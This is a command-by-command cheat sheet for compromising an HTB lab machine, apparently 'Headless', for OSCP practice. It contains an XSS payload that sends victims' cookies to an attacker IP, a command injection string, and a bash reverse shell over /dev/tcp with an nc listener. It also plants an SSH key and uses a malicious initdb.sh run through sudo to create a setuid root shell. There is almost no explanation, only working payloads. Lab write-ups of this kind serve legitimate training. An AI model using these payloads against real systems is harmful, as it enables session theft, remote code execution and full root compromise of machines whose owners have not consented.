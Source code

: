 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.8
nmap -p 22,5000 -sCV 10.10.11.8
```

## 📂 [Directory Brute Force](HTTP)

```bash
feroxbuster -u http://10.10.11.8:5000
```

## 🔎 Filter Testing / Single Character Fuzzing

```bash
ffuf -u http://10.10.11.8:5000/support \
-d 'fname=0xdf&lname=0xdf&email=0xdf@headless.htb&phone=9999999999&message=FUZZ' \
-w /opt/SecLists/Fuzzing/alphanum-case-extra.txt \
-H 'Content-Type: application/x-www-form-urlencoded' \
-mr 'Your IP address has been flagged'
```

## 🧪 XSS Payload (Cookie Stealer)

```html
<script>var i=new Image(); i.src="http://10.10.14.6/?c="+document.cookie;</script>
```

## 🌐 Host Web Server to Catch Cookie

```bash
python -m http.server 80
```

## 🍪 Manually Set Cookie (in Firefox Dev Tools)

```text
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

## 💥 Command Injection Test (Burp Repeater)

```text
date=2023-09-15; id
```

## 🔐 Generate [SSH](SSH) Key

```bash
ssh-keygen -t ed25519 -f key
```

## 📥 Upload Public Key (in initdb.sh or through command injection)

```bash
echo "public_key_content" > ~/.ssh/authorized_keys
```

## 🔑 SSH into Box

```bash
ssh -i key dvir@10.10.11.8
```

## 📤 Reverse Shell Payload (Base Bash Reverse Shell)

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
```

(Encode `&` as `%26` for POST requests)

## 📞 Listen for Shell

```bash
nc -lnvp 443
```

## 🐚 Upgrade TTY Shell

```bash
script /dev/null -c bash
# Then:
[CTRL+Z]
stty raw -echo; fg
reset
# Type: screen
```

## 🔎 Check Sudo Permissions

```bash
sudo -l
```

## 📜 Priv-Esc Exploit: Create Malicious `initdb.sh`

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 6777 /tmp/0xdf' > initdb.sh
chmod +x initdb.sh
```

## ⚙️ Execute `syscheck`

```bash
sudo syscheck
```

## ⬆️ Root Shell

```bash
/tmp/0xdf -p
```

## 🧼 Clean Up and Get Root Flag

```bash
rm /tmp/0xdf
cat /root/root.txt
```